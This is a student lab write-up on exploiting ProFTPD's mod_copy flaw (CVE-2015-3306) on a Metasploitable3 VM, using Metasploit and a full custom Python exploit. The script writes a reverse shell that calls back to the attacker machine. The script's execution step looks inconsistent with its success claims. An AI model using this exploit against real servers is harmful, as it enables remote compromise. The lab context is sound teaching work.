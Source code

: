 # Phase 1: Setup and Compromise the Service

## Vulnerable Service Selection
For this project, we targeted the **ProFTPD** service on Metasploitable3. This FTP server contains a well-known vulnerability (mod_copy module) that allows an attacker to copy files within the target system without authentication.

## Environment Setup

### Victim Environment 
- **VM**: Metasploitable3 
- **IP Address**: 192.168.56.104
- **Vulnerable Service**: ProFTPD with mod_copy module enabled

### Attacker Environment
- **VM**: Kali Linux
- **IP Address**: 192.168.56.102
- **Tools**: Metasploit Framework, Custom Python Exploit

## Attack Execution

### Method 1: Using Metasploit Framework

The first attack method utilized the Metasploit Framework's `unix/ftp/proftpd_modcopy_exec` module to exploit the vulnerable ProFTPD service.

#### Steps:
1. Initiated Metasploit and selected the appropriate exploit module
2. Set the necessary parameters:
   - RHOSTS: 192.168.56.104 (Target IP)
   - LHOST: 192.168.56.102 (Attacker IP)
   - SITEPATH: /var/www/html (Web directory)
3. Executed the exploit, gaining a reverse shell on the target system

#### Exploit Execution:
![Metasploit Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img1.jpeg?raw=true)

The exploit successfully:
- Connected to the FTP server
- Executed the mod_copy commands to place a PHP webshell
- Established a reverse shell connection back to our attacking machine

### Method 2: Using Custom Python Script

We developed a custom Python script that replicates the functionality of the Metasploit module but leverages Python's ftplib to interact with the ProFTPD server.

#### Script Overview:
```python
import ftplib
import socket
import sys
import threading
import time
# Configuration
RHOST = "192.168.56.104"
LHOST = "192.168.56.102"
LPORT = 4444
SITEPATH = "/var/www/html/shell.py"
FTP_PORT = 21
# Reverse shell command
payload = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{LHOST}",{LPORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
"""
# Listener function
def start_listener():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((LHOST, LPORT))
    s.listen(1)
    print(f"[+] Listening on {LHOST}:{LPORT}...")
    conn, addr = s.accept()
    print(f"[+] Connection from {addr}")
    while True:
        try:
            cmd = input("$ ")
            if not cmd:
                continue
            conn.send(cmd.encode() + b"\n")
            response = conn.recv(4096).decode()
            print(response)
        except KeyboardInterrupt:
            conn.close()
            s.close()
            break
# Start listener in a background thread
listener_thread = threading.Thread(target=start_listener)
listener_thread.daemon = True
listener_thread.start()
# FTP connection
try:
    ftp = ftplib.FTP()
    ftp.connect(RHOST, FTP_PORT)
    ftp.login("anonymous", "anonymous@")
    print("[+] Logged in anonymously")
    # Use SITE CPFR to prepare for file creation
    ftp.sendcmd(f"SITE CPFR /dev/stdin")
    print("[+] SITE CPFR /dev/stdin")
    # Use SITE CPTO to create the file in the web directory
    ftp.sendcmd(f"SITE CPTO {SITEPATH}")
    print(f"[+] SITE CPTO {SITEPATH}")
    # Send the payload via APPE
    ftp.storlines("APPE /dev/stdin", iter(payload.splitlines(keepends=True)))
    print("[+] Payload sent")
    ftp.quit()
    print("[+] FTP session closed")
except Exception as e:
    print(f"[!] Error: {e}")
    sys.exit(1)
# Wait for the listener to catch the shell
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Exiting...")
```

The script works by:
1. Setting up a listener for the reverse shell
2. Connecting to the FTP server anonymously
3. Using the SITE CPFR and SITE CPTO commands to abuse the mod_copy module
4. Placing a Python reverse shell in the web directory
5. Executing the shell to establish a connection back to our attacker machine

#### Custom Script Execution:
![Custom Script Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img2.jpeg?raw=true)

The custom script successfully:
- Connected to the FTP server anonymously
- Used the SITE CPFR and CPTO commands
- Received an error that the file exists, demonstrating the vulnerability
- Established a reverse shell connection (as seen in our listening session)

## Vulnerability Analysis

The ProFTPD mod_copy module vulnerability (CVE-2015-3306) allows remote attackers to read and write to arbitrary files on the system via the SITE CPFR and SITE CPTO commands. This vulnerability exists because:

1. The mod_copy module allows copying files between locations on the server
2. No authentication is required to use these commands
3. The module doesn't properly restrict where files can be copied to or from

This vulnerability is particularly dangerous as it allows attackers to:
- Write malicious files to web directories
- Execute arbitrary code on the target system
- Create backdoors for persistent access

## Conclusion

We successfully compromised the ProFTPD service on Metasploitable3 using both Metasploit and a custom Python script. The vulnerability in the mod_copy module allowed us to place a reverse shell on the target system and execute arbitrary commands, demonstrating the severe impact of this security flaw.

In Phase 2, we will analyze the logs from both the victim and attacker machines to better understand the attack patterns and indicators of compromise.

